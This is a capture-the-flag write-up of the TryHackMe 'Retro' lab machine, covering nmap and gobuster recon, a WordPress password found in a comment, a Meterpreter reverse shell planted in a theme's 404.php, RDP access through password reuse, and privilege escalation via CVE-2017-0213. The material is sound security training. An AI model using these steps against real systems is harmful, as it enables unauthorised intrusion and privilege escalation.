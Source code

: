 ```yaml
---
title: THM Retro
description: Write-up for THM Retro room
author: z3nn
date: 2020-10-18 21:38:09 +0300
categories: [Hacking, TryHackMe]
tags: [windows,  ctf,  privesc,  thm,  hacking,  security,  pentest,  retro]
---
```


# TryHackMe - Retro
A write-up to the Retro machine provided by [TryHackMe](https://tryhackme.com/). This machine is part of the `Offensive Pentesting` learning path from THM in the `Extra Credit` Section being rated as a `Hard` difficulty.... Let's get to it.

# Recon

```
# Nmap 7.80 scan initiated Sun Oct 18 21:41:47 2020 as: nmap -sS -sV -A -Pn -p- -T5 --script=default,vuln -oA retro 10.10.75.210
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.75.210
Host is up (0.048s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-10-18T18:43:31+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-10-17T18:37:37
|_Not valid after:  2021-04-18T18:37:37
|_ssl-date: 2020-10-18T18:46:17+00:00; -1s from scanner time.
|_sslv2-drown: 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (89%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   48.36 ms 10.11.0.1
2   48.63 ms 10.10.75.210

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 18 21:46:20 2020 -- 1 IP address (1 host up) scanned in 273.12 seconds
```

Not much to see in this scan... only 2 ports open. Going on port 80 we see a basic Windows IIS Webpage... but from the machine description we already know there's a hidden directory somewhere... so we're going to fire up gobuster and see what we can find

```
gobuster dir --url http://10.10.75.210/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.75.210/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/18 21:41:32 Starting gobuster
===============================================================
/retro (Status: 301)
```

So we have a `retro` directory... With a quick scroll we can see / know the following:
- it's a wordpress blog -> there's a `/wp-login.php` link in the footer
- there's a user `Wade` which will most likely be our way in

There's 2 ways to actually get in this user account.

## Brute force the credentials
We already know the user is `Wade` we just have to find the right password. Either use `rockyou.txt` and wait however long 'till it finds the good password or use `cewl` to generate a custom password list.

## More recon...
Since `cewl` gets us the good password also it means that somwhere on this blog that password is written down somehow... So we have to look around for it. To be honest I really didn't feel like having a long lecture about retro games but I randomly clicked on one post and then I saw something __interesting__

Wade commented on one of the posts `Ready Player One` and if we look there he just left a random __note to self__ with the word `parzival`. 


# Foothold
Foothold was a bit interesting since I started up on a path that I normally take when seeing wordpress apps... I logged in with `Wade:parzival` credentials and went straight for the theme editor. with the help of [PenTest.WS](https://pentest.ws/) I created a `php/meterpreter/reverse_tcp` php shell that I manually added in the `404.php` page. Started a Metasploit TCP Listener and just went to a random link to get the 404 page. It worked... I'm in... something... I got in the user under which the web application was running

```
[*] Meterpreter session 1 opened (10.11.14.38:9090 -> 10.10.75.210:52759) at 2020-10-18 22:10:13 +0300

meterpreter > getuid
Server username: IUSR (0)
meterpreter > sysinfo
Computer    : RETROWEB
OS          : Windows NT RETROWEB 10.0 build 14393 (Windows Server 2016) i586
Meterpreter : php/windows

```

After about 30 minutes of trying stuff, trying to break out from this user and into `Wade` I realized there's something I didn't try... One common issue with users is `password reuse`, so if he was using that password for his wordpress account... what else could he used it for ?

Since this is a Windows machine I'm going to use `xfreerdp` to try and connect into this machine as `Wade`
```
xfreerdp /u:wade /v:10.10.75.210
```
It worked! we're in.

![windows_desktop](/assets/img/posts/thm_retro_windows.desktop.png)

From here on you can pretty much upload a meterpreter shell to benefit from the post exploitation modules within `Metasploit` and either get the flag now from RDP or get it after from meterpreter.

# PrivEsc

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

PrivEsc was pretty straight forward, using `CVE-2017-0213` - everything needed is found in [this github repo](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213)

Get root flag and GTFO.
